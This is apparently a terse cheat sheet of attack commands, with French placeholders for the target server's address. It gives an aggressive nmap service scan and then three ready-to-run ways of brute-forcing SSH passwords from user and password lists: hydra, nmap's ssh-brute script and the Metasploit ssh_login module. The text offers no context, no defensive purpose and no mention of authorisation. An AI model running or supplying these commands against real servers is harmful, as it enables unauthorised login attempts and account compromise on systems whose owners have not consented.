 nmap -v -A *ip_serveur*
nmap -v -A -Pn *ip_serveur*

# Hydra :
hydra -L users.txt -P passwords.txt ssh://*ip_serveur_ssh* -t 4

# Nmap :
nmap *ip_serveur_ssh* -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt
nmap -Pn *ip_serveur_ssh* -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt

# Metasploit :
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts *ip_serveur_ssh*
set stop_on_success true
set user_file users.txt
set pass_file passwords.txt
set verbose true
run
